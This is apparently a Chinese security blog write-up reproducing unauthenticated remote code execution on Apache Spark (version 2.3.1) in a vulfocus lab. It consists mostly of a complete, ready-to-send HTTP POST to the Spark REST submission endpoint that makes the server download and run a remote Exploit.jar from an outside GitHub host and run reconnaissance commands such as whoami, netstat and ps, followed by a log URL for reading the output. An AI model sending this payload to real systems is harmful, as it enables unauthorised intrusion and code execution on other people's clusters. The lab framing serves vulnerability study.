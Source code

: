 ```yaml
---
title: Spark未授权访问RCE
layout: post
post-image: /assets/images/spark.jpg
description: Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。
tags:
- 内网渗透
- Apache Flink
- 文件上传
---
```



# Spark未授权访问RCE

​                                                                                                                       ——花无名    

## 1.Apache Spark 

Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。是一种与 Hadoop 相似的开源集群计算环境，但是两者之间还存在一些不同之处，这些有用的不同之处使 Spark 在某些工作负载方面表现得更加优越，换句话说，Spark 启用了内存分布数据集，除了能够提供交互式查询外，它还可以优化迭代工作负载。

## 2.漏洞介绍

系统未做身份验证，导致任意用户访问系统地址即可进入系统管理界面，并通过构造数据包，调用系统API接口，提交REST格式的API恶意代码，从而导致系统可被执行任意代码并getshell

## 3.漏洞复现

A：直接访问目标的8080端口即可进入系统管理界面，查看当前版本号为2.3.1（注：这里使用的靶场环境为vulfocus，故端口映射与系统原本默认端口不一致）

![image-20211106110800090](/assets/images/20211106/image-20211106110800090.png)

B：构造数据包：使用目标6066端口/v1/submissions/create构造数据包，提交REST格式的API恶意代码，并获取submissionId，其中appArgs参数值为需要执行的命令

<strong>POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}<strong>

![image-20211106111209048](/assets/images/20211106/image-20211106111209048.png)

C：成功获取submissionid后，访问 http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout 即可查看执行结果

![image-20211106111440687](/assets/images/20211106/image-20211106111440687.png)